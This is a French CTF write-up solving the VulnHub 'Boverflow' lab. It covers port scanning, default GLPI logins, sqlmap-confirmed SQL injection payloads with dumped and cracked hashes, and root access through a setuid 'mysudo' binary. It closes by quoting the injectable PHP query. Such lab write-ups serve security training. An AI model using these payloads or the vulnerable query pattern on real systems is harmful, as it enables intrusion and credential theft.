 # Solution du CTF Boverflow de VulnHub

Slow Life
---------

[Boverflow](https://www.vulnhub.com/entry/boverflow-1,572/ "Boverflow") est un CTF créé par *foxlox*, auteur de différents CTFs proposé sur VulnHub.  

La description du CTF nous prévient que nos paquets pourraient être DROPés si on charge un peu trop la mule, c'est vraisemblablement dû à la présence d'un *fail2ban*.

Pour un scan de port ça semble passer. Le port 80 nous redirige directement sur une installation de [GLPI](http://glpi-project.org/ "GLPI").

```plain

Nmap scan report for 192.168.56.22
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:0a:c8:cb:7e:d7:3a:f0:5b:3d:c3:ab:1e:dd:a9:f1 (RSA)
|   256 d4:f2:ee:8c:d0:61:74:31:df:6b:5b:e1:c9:de:21:ad (ECDSA)
|_  256 0a:be:d2:86:51:c0:e9:2c:92:ed:15:5e:3c:e1:14:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: GLPI - Authentication
|_Requested resource was http://192.168.56.22/glpi/
|_http-server-header: Apache/2.4.38 (Debian)

```

Ce site nous demande directement des identifiants, il ne semble pas y avoir d'accès publique.  

Une petite recherche sur Internet m'amène sur [ce forum](https://forum.glpi-project.org/viewtopic.php?id=23219 "ce forum") qui liste les comptes par défaut de ce logiciel. Tous ont un mot de passe par défaut qui correspond au nom d'utilisateur :

```plain

you have 4 differents profils
glpi/glpi (super-admin)
tech/tech
postonly/postonly (only for helpdesk)
normal/normal

```

J'ai testé rapidement et le compte *normal* fonctionne. Toutefois il ne semble pas assez privilégié pour ajouter des éléments via l'interface.  

Un exploit pour GLPI existe et [est détaillé dans cet article](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html "est détaillé dans cet article"). Il y a un code d'exploitation publié sur exploit-db et en le lisant on comprends qu'il créé une entrée via la secion *Wifi Networks.*  

Notre compte actuel ne permet donc pas cette exploitation.  

Timmy The Turtle
----------------

Via *feroxbuster* je trouve une mire de login à l'adresse [http://192.168.56.22/admin/](http://192.168.56.22/admin/ "http://192.168.56.22/admin/").  

On peut lancer Wapiti dessus en ne sélectionnant que le ou les modules les plus à même de remonter quelque chose d'intéressant afin d'éviter le ban sur la quantité de requêtes :

```plain
$ wapiti -u http://192.168.56.24/admin/ --color -m timesql -v2
[*] Lancement du module timesql
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre username
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=%27%20or%20sleep%287%29%231&password=Letm3in_
---
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre password
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=alice&password=%27%20or%20sleep%287%29%231
---

```

Nice ! On peut enchainer avec SQLmap mais en mode *vas-y molo*. Ça passe en utilisant l'option *delay* mais SQLmap ne la respecte pas vraiment puisqu'il faudrait aussi limiter le parallélisme à un seul thread pour que ce soit effectif.

```plain

$ python sqlmap.py -u http://192.168.56.24/admin/verify.php --data "username=admin&password=password" --dbms mysql --risk 3 --level 5 --delay 5

sqlmap identified the following injection point(s) with a total of 1328 HTTP(s) requests:
---
Parameter: username (POST)
	Type: error-based
	Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=admin'||(SELECT 0x43724275 FROM DUAL WHERE 6495=6495 AND (SELECT 4399 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(4399=4399,1))),0x71766a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=password

	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=admin'||(SELECT 0x57544e49 FROM DUAL WHERE 9937=9937 AND (SELECT 9840 FROM (SELECT(SLEEP(5)))WtOD))||'&password=password
---

```

On trouve alors différentes DBs et la courante dispose d'un hash :

```plain

available databases [3]:
[*] basedb
[*] glpi
[*] information_schema

```

```plain

Database: basedb
Table: passwd
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | fox      | be073f86255a6d45d4392ca8fc226e73 |
+----+----------+----------------------------------+

```

Le hash est vite cassé via CrackStation (cleartext : *moanapozzi*).  

J'ai aussi extrais les hashs des users GLPI mais impossible de casser le compte privilégié *glpi*...

Lazy Fox
--------

Les identifiants de la base de donnés nous fournissent finalement un accès via SSH.

```plain

fox@boverflow:~$ cat user.txt 
a7de9153594943377ea6e508f5561a67

```

On trouve dans le dossier de l'utilisateur un binaire *mysudo* et son code source associé que voici :

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

char cmd[100];

void execute()
{
	printf("Command output:\n");
	if (cmd) system(cmd);
}

void echo()
{
	printf("\nWelcome to mysudo tool, you can run a command on the system as root.\n\ndon't try brute force, it's impossible!\n\n");
		setuid(0);
	char username[20],password[20];
	printf("Command: ");
	scanf("%s", cmd);
	printf("Username: ");
	scanf("%s", username);
	printf("Password: ");
	scanf("%s", password);
	if ((!strcmp(username,"username"))&&(!strcmp(password,"password")))
	 execute(); 
	else
	 printf("Wrong username or password!\n");
}

int main()
{
	echo();
	return 0;
}

```

Evidemment si on effectue un strings sur le fichier on obtient des chaines sensiblement différentes (le mot de passe attendu a été changé).  

On peut aussi débugger le binaire avec gdb, désassembler la méthode *echo* et placer les breakpoints sur les appels à *strcmp*.  

Une inspection des registres *rdi* et *rsi* permettront ainsi de voir les chaines comparées.

```plain

Command output:
Welcome to mysudo tool, you can run a command on the system as root.
don't try brute force, it's impossible!
Command: 
Username: 
Password: 
username
passworaaaaaaaaaaaaaa
Wrong username or password!

```

On trouve la chaine *passworaaaaaaaaaaaaaa* qui n'est pas dans le code C.

```plain

fox@boverflow:~$ ./mysudo 

Welcome to mysudo tool, you can run a command on the system as root.

don't try brute force, it's impossible!

Command: bash
Username: username
Password: passworaaaaaaaaaaaaaa
Command output:
root@boverflow:~# id
uid=0(root) gid=1000(fox) groups=1000(fox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@boverflow:~# cd /root
root@boverflow:/root# ls
root.txt
root@boverflow:/root# cat root.txt 
9057703b55b8943d91cad17ac3c4920f

```

Et voilà !  

Un petit coup d'oeil au fichier verify.php nous permet de voir comment était formé la requête SQL :  

```php
$q="select count(*) from passwd where username='".$_POST['username']."' and password='".$_POST['password']."';";
```



*Published January 11 2022 at 20:06*